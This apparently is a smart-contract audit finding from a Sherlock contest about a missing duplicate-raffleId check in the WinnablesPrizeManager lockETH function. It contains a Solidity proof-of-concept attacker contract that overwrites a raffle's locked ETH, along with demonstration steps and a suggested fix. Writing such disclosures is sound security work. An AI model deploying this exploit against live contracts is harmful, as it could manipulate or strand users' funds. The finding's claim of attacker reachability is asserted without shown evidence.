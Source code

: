 Sour Denim Alpaca

High

# No Check for Duplicate raffleId at WinnablesPrizeManager contract

### Summary

Line: https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L178

If the raffleId is not unique, calling this function multiple times with the same raffleId could lead to overwriting the existing raffle prize. This could cause confusion or even allow a malicious user to manipulate the raffle system by changing the locked ETH amount for a previously set raffle.

### Root Cause

Duplicate raffleID check missing.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

This could cause confusion or even allow a malicious user to manipulate the raffle system by changing the locked ETH amount for a previously set raffle.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import "./WinnablesPrizeManager.sol"; // Import the vulnerable contract

contract PoCAttacker {
    WinnablesPrizeManager public targetContract;

    constructor(address _targetAddress) {
        targetContract = WinnablesPrizeManager(_targetAddress);
    }

    // Function to perform the attack by calling lockETH multiple times with the same raffleId
    function attack(uint256 raffleId, uint256 firstAmount, uint256 secondAmount) external payable {
        require(msg.value == firstAmount + secondAmount, "Insufficient ETH sent");

        // First call to lockETH with the raffleId
        targetContract.lockETH{value: firstAmount}(address(this), 1, raffleId, firstAmount);

        // Second call to lockETH with the same raffleId, overwriting the first locked amount
        targetContract.lockETH{value: secondAmount}(address(this), 1, raffleId, secondAmount);
    }

    // Fallback function to receive ETH if needed
    receive() external payable {}
}
```
Vulnerable Contract Reference: The PoC imports the WinnablesPrizeManager contract (the vulnerable contract). This allows the PoC to interact directly with the vulnerable lockETH function.

**attack Function:**

The attack function is designed to call the lockETH function on the target contract twice with the same raffleId.
It accepts the raffleId, firstAmount, and secondAmount as parameters. It also requires that the caller sends enough ETH to cover both amounts.
The first call to lockETH locks an initial amount of ETH with the given raffleId.
The second call to lockETH uses the same raffleId but locks a different amount, effectively overwriting the previous ETH lock.
**Demonstration:**

Deploy the WinnablesPrizeManager contract.
Deploy this PoC contract, passing the address of the WinnablesPrizeManager contract to the constructor.
Call the attack function with a specific raffleId and two different ETH amounts.
Observe that the second call overwrites the ETH locked for the raffleId in the vulnerable contract.

**Expected Outcome:**
After running this PoC, you should see that the _ethRaffles mapping for the given raffleId in the WinnablesPrizeManager contract only contains the secondAmount, demonstrating that the first locked amount was overwritten by the second call.
This PoC highlights the vulnerability in allowing multiple lockETH calls with the same raffleId, which could be exploited by an attacker to manipulate the locked ETH amounts.

### Mitigation

Implement a check to ensure that the raffleId has not been used before to avoid overwriting existing raffle prizes.